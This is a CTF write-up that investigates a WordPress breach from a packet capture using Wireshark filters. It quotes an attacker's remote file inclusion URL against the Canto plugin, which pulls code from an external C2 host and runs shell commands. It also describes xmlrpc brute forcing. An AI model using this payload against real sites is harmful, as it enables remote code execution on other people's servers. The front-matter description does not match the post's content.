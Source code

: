 ```yaml
---
layout: post
author: kranthikvrm
title: CTF Writeup - 0xL4ugh CTF 2024
description: In this blog post, I am sharing my experiences from my first year at RGUKT Nuzvid, where I experienced new faces, challenges, and exciting opportunities on my journey towards becoming an engineer.
date: 2024-02-13 07:43:00 +0800
categories: [CTF Writeups]
tags: [CTF, CTF Writeups]
img_path: /images/0xL4ughCTF
image:
  path: 0xL_logo.png
pin: true
---
```


Hello buddy, I am Kranthi Kumar, a cybersecurity enthusiast. Recently I participated in the 0xL4ugh CTF, so I am writing how I solved these challenges:

## Challenge 1: WordPress - 1 [Easy]
```
Our WordPress site has experienced a security breach, and the precise method of compromise remains undetermined at present. We need your help to investigate what actually happened.

Q1. There were two attackers attempting to compromise our environment. What is the IP address of the victim, and what is the IP address of the first attacker?

Q2. What are the versions of the Apache and PHP servers deployed in our environment?

Flag Format: 0xL4ugh{A1_A2}

Example: 0xL4ugh{IP1_IP2_apache1.2.3_php1.2.3}(no spaces)
```
<b>My approach:</b>

They gave us a wordpress.pcap file, so I started my analysis using Wireshark.

First things first, I filtered out `http.request traffic` to get a lead. I observed that the IP `192.168.204.132` tried accessing `/wordpress/robots.txt` and `/wordpress/xmlrpc.php`, and `GET /wordpress/wp-content/uploads/` paths. It is very clear that this is the attacker's IP.
![IP addresses found](1.png)

So, Q1 victim IP: 192.168.204.128  and attacker IP: 192.168.204.132

Following the HTTP stream gave us the server and php version information.

![server version found](2.png)

So the flag is `0xL4ugh{192.168.204.128_192.168.204.132_apache2.4.58_php8.2.12}`
___________________________________________________________________________

## Challenge 2: WordPress - 2 [Medium]
```

Q1. During enumeration, the attacker tried to identify users on the site. List all the users that the attacker enumerated. Separate them with a colon. Sort them alphabetically.

Q2. After enumeration, a brute force attack was launched against all users. The attacker successfully gained access to one of the accounts. What are the username and password for that account, and what is the name of the page used for the brute force attack?

Flag Format: 0xL4ugh{A1_A2}

Example: 0xL4ugh{username1:username2_username:password_pageName.ext}
```

<b>My approach:</b>

As we already know the attacker IP, I filtered the traffic with the "POST" method as it is used to log in and the source IP as the attacker IP.

`ip.src == 192.168.204.132 && http.request.method == POST`

I found three login attempts and also the three usernames and passwords.
![login attempts](22.1.png)
![login attempts](22.2.png)
![login attempts](22.3.png)

So it's `a1l4m:demomorgan:not7amoksha` in alphabetical order.

Moving forward to Q2, to find out the brute force attack, I filtered traffic so that all HTTP traffic from and to `192.168.204.132` will be visible.

`((ip.src == 192.168.204.132) || (ip.dst == 192.168.204.132)) && http`

![brute force attempts](3.png)

I found 5 POST requests to the `/wordpress/xmlrpc.php` path. Following the HTTP stream revealed that the attacker tried the "wp.getUsersBlogs" command with two parameters to extract users.
![brute force attempts -1](3.1.png)

So for sure, the second parameter is the password that the attacker used. I saw too many failed attempts. I tried to filter only the successful attempts using

`(ip.dst == 192.168.204.132) && !(xml.cdata == "403") && (_ws.col.protocol == "HTTP/XML")`

The above filter or query, (ip.dst == 192.168.204.132): This part filters packets where the destination IP address is 192.168.204.132 and !(xml.cdata == "403") this part selects packets where the XML data field (xml.cdata) is not equal to "403". So, it excludes packets containing XML data equal to "403" and (_ws.col.protocol == "HTTP/XML"), this part filters packets where the protocol in the Wireshark column is "HTTP/XML".

I analyzed all the filtered packets, and the packet 147357 response says that the login successful. I found it by following the HTTP stream.
![brute force attempts -2](3.2.png)

So the username:password is `demomorgan:demomorgan`

And I know that the brute forced web page is `xmlrpc.php`
![brute force attempts -3](3.3.png)
With the all the information, I got the final flag, it is `0xL4ugh{a1l4m:demomorgan:not7amoksha_demomorgan:demomorgan_xmlrpc.php}`

## Challenge 3: WordPress - 3 [Hard]
```
Q1. Mention the names of the tools that the attacker used in the attack. (in alphabetical order)

Q2. There was a vulnerable plugin that the attacker exploited. What is the C2 server of the attacker, and what is the name of the plugin?

Q3. What is the version of the vulnerable plugin, and what is the CVE number associated with that plugin?

Flag Format: 0xL4ugh{A1_A2_A3}

Example: 0xL4ugh{tool1_tool2_C2_PluginName_1.2.3_CVE--} ```

<b>My approach:</b>

To solve Q1, I have to find the tools that the attacker used for the attack. Most of the times, checking the user-agent will give us this data. So let's check the HTTP traffic again.

With `(ip.src == 192.168.204.132) && http.request` filter

![user agent checking](4.1.png)

User-Agent: `WPScan v3.8.25 (https://wpscan.com/wordpress-security-scanner)`

Attacker tried SQL Injection attack using sqlmap. 
User-Agent: `sqlmap/1.7.12#stable (https://sqlmap.org)`
![user agent checking](4.png)
Sorting them in alphabetical order: `sqlmap_WPScan`

Moving forward to Q2, I have to find the vulnerable plugin that the attacker exploited.

so I used this filter `http contains "plugins"` and found the below leads.

![vulnerable plugin](4.2.png)

URL: `http://192.168.204.128/wordpress/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://172.26.211.155:8000&cmd=whoami` and `cmd=ls`

I found that a plugin named "Canto" along with a command `whoami` and `ls` at the end of the URL. So this is the vulnerable plugin.

With the information in hand, I can say the answer for Q2 is `172.26.211.155_canto`.

Moving to Q3, and after some analysis, nothing was there related to plugin version and CVE. So I did a Google search, and the first hit shows that Canto 3.0.4 is vulnerable to CVE-2023-3452.
![vulnerable plugin details](4.3.png)
With the information gathered, the answer to Q3 is `3.0.4_CVE-2023-3452`. So the final flag is `0xL4ugh{SQLMap_WPScan_172.26.211.155_canto_3.0.4_CVE-2023-3452}`. 

Thank you for reading buddy ❤️
